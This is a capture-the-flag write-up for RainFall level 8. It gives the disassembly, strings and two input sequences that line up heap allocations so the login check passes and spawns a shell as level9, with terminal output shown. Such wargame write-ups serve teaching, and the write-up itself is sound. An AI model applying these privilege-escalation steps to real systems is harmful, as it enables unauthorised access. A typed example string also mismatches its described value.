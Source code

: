 [README](../README.md)
# level 8

## GDB disassembly

### Main
```
0x08048564 <+0>:     push   %ebp
0x08048565 <+1>:     mov    %esp,%ebp
0x08048567 <+3>:     push   %edi
0x08048568 <+4>:     push   %esi
0x08048569 <+5>:     and    $0xfffffff0,%esp
0x0804856c <+8>:     sub    $0xa0,%esp
0x08048572 <+14>:    jmp    0x8048575 <main+17>
0x08048574 <+16>:    nop
0x08048575 <+17>:    mov    0x8049ab0,%ecx
0x0804857b <+23>:    mov    0x8049aac,%edx
0x08048581 <+29>:    mov    $0x8048810,%eax
0x08048586 <+34>:    mov    %ecx,0x8(%esp)
0x0804858a <+38>:    mov    %edx,0x4(%esp)
0x0804858e <+42>:    mov    %eax,(%esp)
0x08048591 <+45>:    call   0x8048410 <printf@plt>
0x08048596 <+50>:    mov    0x8049a80,%eax
0x0804859b <+55>:    mov    %eax,0x8(%esp)
0x0804859f <+59>:    movl   $0x80,0x4(%esp)
0x080485a7 <+67>:    lea    0x20(%esp),%eax
0x080485ab <+71>:    mov    %eax,(%esp)
0x080485ae <+74>:    call   0x8048440 <fgets@plt>
0x080485b3 <+79>:    test   %eax,%eax
0x080485b5 <+81>:    je     0x804872c <main+456>
0x080485bb <+87>:    lea    0x20(%esp),%eax
0x080485bf <+91>:    mov    %eax,%edx
0x080485c1 <+93>:    mov    $0x8048819,%eax
0x080485c6 <+98>:    mov    $0x5,%ecx
0x080485cb <+103>:   mov    %edx,%esi
0x080485cd <+105>:   mov    %eax,%edi
0x080485cf <+107>:   repz cmpsb %es:(%edi),%ds:(%esi)
0x080485d1 <+109>:   seta   %dl
0x080485d4 <+112>:   setb   %al
0x080485d7 <+115>:   mov    %edx,%ecx
0x080485d9 <+117>:   sub    %al,%cl
0x080485db <+119>:   mov    %ecx,%eax
0x080485dd <+121>:   movsbl %al,%eax
0x080485e0 <+124>:   test   %eax,%eax
0x080485e2 <+126>:   jne    0x8048642 <main+222>
0x080485e4 <+128>:   movl   $0x4,(%esp)
0x080485eb <+135>:   call   0x8048470 <malloc@plt>
0x080485f0 <+140>:   mov    %eax,0x8049aac
0x080485f5 <+145>:   mov    0x8049aac,%eax
0x080485fa <+150>:   movl   $0x0,(%eax)
0x08048600 <+156>:   lea    0x20(%esp),%eax
0x08048604 <+160>:   add    $0x5,%eax
0x08048607 <+163>:   movl   $0xffffffff,0x1c(%esp)
0x0804860f <+171>:   mov    %eax,%edx
0x08048611 <+173>:   mov    $0x0,%eax
0x08048616 <+178>:   mov    0x1c(%esp),%ecx
0x0804861a <+182>:   mov    %edx,%edi
0x0804861c <+184>:   repnz scas %es:(%edi),%al
0x0804861e <+186>:   mov    %ecx,%eax
0x08048620 <+188>:   not    %eax
0x08048622 <+190>:   sub    $0x1,%eax
0x08048625 <+193>:   cmp    $0x1e,%eax
0x08048628 <+196>:   ja     0x8048642 <main+222>
0x0804862a <+198>:   lea    0x20(%esp),%eax
0x0804862e <+202>:   lea    0x5(%eax),%edx
0x08048631 <+205>:   mov    0x8049aac,%eax
0x08048636 <+210>:   mov    %edx,0x4(%esp)
0x0804863a <+214>:   mov    %eax,(%esp)
0x0804863d <+217>:   call   0x8048460 <strcpy@plt>
0x08048642 <+222>:   lea    0x20(%esp),%eax
0x08048646 <+226>:   mov    %eax,%edx
0x08048648 <+228>:   mov    $0x804881f,%eax
0x0804864d <+233>:   mov    $0x5,%ecx
0x08048652 <+238>:   mov    %edx,%esi
0x08048654 <+240>:   mov    %eax,%edi
0x08048656 <+242>:   repz cmpsb %es:(%edi),%ds:(%esi)
0x08048658 <+244>:   seta   %dl
0x0804865b <+247>:   setb   %al
0x0804865e <+250>:   mov    %edx,%ecx
0x08048660 <+252>:   sub    %al,%cl
0x08048662 <+254>:   mov    %ecx,%eax
0x08048664 <+256>:   movsbl %al,%eax
0x08048667 <+259>:   test   %eax,%eax
0x08048669 <+261>:   jne    0x8048678 <main+276>
0x0804866b <+263>:   mov    0x8049aac,%eax
0x08048670 <+268>:   mov    %eax,(%esp)
0x08048673 <+271>:   call   0x8048420 <free@plt>
0x08048678 <+276>:   lea    0x20(%esp),%eax
0x0804867c <+280>:   mov    %eax,%edx
0x0804867e <+282>:   mov    $0x8048825,%eax
0x08048683 <+287>:   mov    $0x6,%ecx
0x08048688 <+292>:   mov    %edx,%esi
0x0804868a <+294>:   mov    %eax,%edi
0x0804868c <+296>:   repz cmpsb %es:(%edi),%ds:(%esi)
0x0804868e <+298>:   seta   %dl
0x08048691 <+301>:   setb   %al
0x08048694 <+304>:   mov    %edx,%ecx
0x08048696 <+306>:   sub    %al,%cl
0x08048698 <+308>:   mov    %ecx,%eax
0x0804869a <+310>:   movsbl %al,%eax
0x0804869d <+313>:   test   %eax,%eax
0x0804869f <+315>:   jne    0x80486b5 <main+337>
0x080486a1 <+317>:   lea    0x20(%esp),%eax
0x080486a5 <+321>:   add    $0x7,%eax
0x080486a8 <+324>:   mov    %eax,(%esp)
0x080486ab <+327>:   call   0x8048430 <strdup@plt>
0x080486b0 <+332>:   mov    %eax,0x8049ab0
0x080486b5 <+337>:   lea    0x20(%esp),%eax
0x080486b9 <+341>:   mov    %eax,%edx
0x080486bb <+343>:   mov    $0x804882d,%eax
0x080486c0 <+348>:   mov    $0x5,%ecx
0x080486c5 <+353>:   mov    %edx,%esi
0x080486c7 <+355>:   mov    %eax,%edi
0x080486c9 <+357>:   repz cmpsb %es:(%edi),%ds:(%esi)
0x080486cb <+359>:   seta   %dl
0x080486ce <+362>:   setb   %al
0x080486d1 <+365>:   mov    %edx,%ecx
0x080486d3 <+367>:   sub    %al,%cl
0x080486d5 <+369>:   mov    %ecx,%eax
0x080486d7 <+371>:   movsbl %al,%eax
0x080486da <+374>:   test   %eax,%eax
0x080486dc <+376>:   jne    0x8048574 <main+16>
0x080486e2 <+382>:   mov    0x8049aac,%eax
0x080486e7 <+387>:   mov    0x20(%eax),%eax
0x080486ea <+390>:   test   %eax,%eax
0x080486ec <+392>:   je     0x80486ff <main+411>
0x080486ee <+394>:   movl   $0x8048833,(%esp)
0x080486f5 <+401>:   call   0x8048480 <system@plt>
0x080486fa <+406>:   jmp    0x8048574 <main+16>
0x080486ff <+411>:   mov    0x8049aa0,%eax
0x08048704 <+416>:   mov    %eax,%edx
0x08048706 <+418>:   mov    $0x804883b,%eax
0x0804870b <+423>:   mov    %edx,0xc(%esp)
0x0804870f <+427>:   movl   $0xa,0x8(%esp)
0x08048717 <+435>:   movl   $0x1,0x4(%esp)
0x0804871f <+443>:   mov    %eax,(%esp)
0x08048722 <+446>:   call   0x8048450 <fwrite@plt>
0x08048727 <+451>:   jmp    0x8048574 <main+16>
0x0804872c <+456>:   nop
0x0804872d <+457>:   mov    $0x0,%eax
0x08048732 <+462>:   lea    -0x8(%ebp),%esp
0x08048735 <+465>:   pop    %esi
0x08048736 <+466>:   pop    %edi
0x08048737 <+467>:   pop    %ebp
0x08048738 <+468>:   ret
```

The `main` function of the program consists of a loop that continuously prompts the user for input. It then processes the input based on several conditions, such as commands like `auth`, `service`, `reset`, and `login`. These commands perform various actions like allocating memory, copying data, freeing memory, and checking conditions before executing certain actions.

**Strings:**
```
0x8048810:      "%p %p\n"
0x8048819:      "auth"
0x804881f:      "reset"
0x8048825:      "service"
0x804882d:      "login"
0x8048833:      "/bin/sh"
0x804883b:      "Password: \n"
```

The program waits for commands:
- `auth`: `malloc` and `strcpy` datas in the command to the global variable auth
- `service`: `strdup` datas in the command to the global variable service
- `reset`: `free` the global variable auth
- `login`: `system` if auth[32] is different to 0, `fwrite` otherwise to display the addresses of global variables auth and service

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth test
0x804a008, (nil)
service test
0x804a008, 0x804a018
login
Password:
0x804a008, 0x804a018
```

The 2 variables are allocated next to each other with a padding of 16 bytes.

### Strategy
To pass the `login` we need to write data at auth+32

## Exploit
### 1
1. Input `auth 1`: allocates memory for the `auth` variable and stores the input `1` int it.
2. `service 01234567890acdefg`: allocates memory for the `service` variable and stores `0123456789abcdef`
The memory layout become:
`[auth (16 bytes)][service (16 bytes)]`
3. Input `login`: this triggers vulnerable condition. The program checks for `auth + 32` and since there is no condition for the `service` variable the check passes

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 1
0x804a008, (nil)
service 0123456789abcdefg
0x804a008, 0x804a018
login
$ whoami
level9
```

### 2
1. Input `auth 1`: allocates memory for the `auth` variable and stores the input `1` int it.
2. Calling `service` multiple times increase the allocated size. We increase it until it reaches `auth+32`

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 1
0x804a008, (nil)
service
0x804a008, 0x804a018
login
Password:
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
```